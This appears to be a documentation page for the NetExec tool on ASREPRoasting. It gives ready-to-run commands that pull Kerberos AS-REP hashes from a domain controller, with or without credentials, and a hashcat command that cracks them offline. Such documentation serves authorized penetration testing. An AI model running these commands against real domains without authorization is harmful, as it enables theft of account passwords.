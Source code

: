 # ASREPRoasting

### Retrieve the Kerberos 5 AS-REP etype 23 hash of users without Kerberos pre-authentication required

## TIP: You can retrieve the Kerberos 5 AS-REP etype 23 hash of users without Kerberos pre-authentication required if you have a list of users on the domain

# Without authentication

### The ASREPRoast attack looks for users without Kerberos pre-authentication required. That means that anyone can send an AS_REQ request to the KDC on behalf of any of those users, and receive an AS_REP message. This last kind of message contains a chunk of data encrypted with the original user key, derived from its password. Then, by using this message, the user password could be cracked offline. 
 
    nxc ldap 192.168.0.104 -u harry -p '' --asreproast output.txt

### Using a wordlist, you can find wordlists of username here
 
    nxc ldap 192.168.0.104 -u user.txt -p '' --asreproast output.txt

### Set the password value to '' to perform the test without authentication

# With authentication

### If you have one valid credential on the domain, you can retrieve all the users and hashes where the Kerberos pre-authentication is not required

     nxc ldap 192.168.0.104 -u harry -p pass --asreproast output.txt

## TIP: Use option kdcHost when the domain name resolution fail

     nxc ldap 192.168.0.104 -u harry -p pass --asreproast output.txt --kdcHost domain_name

# Cracking with hashcat

### To crack hashes on the file output.txt with hashcat use the following options:

     hashcat -m 18200 output.txt wordlist


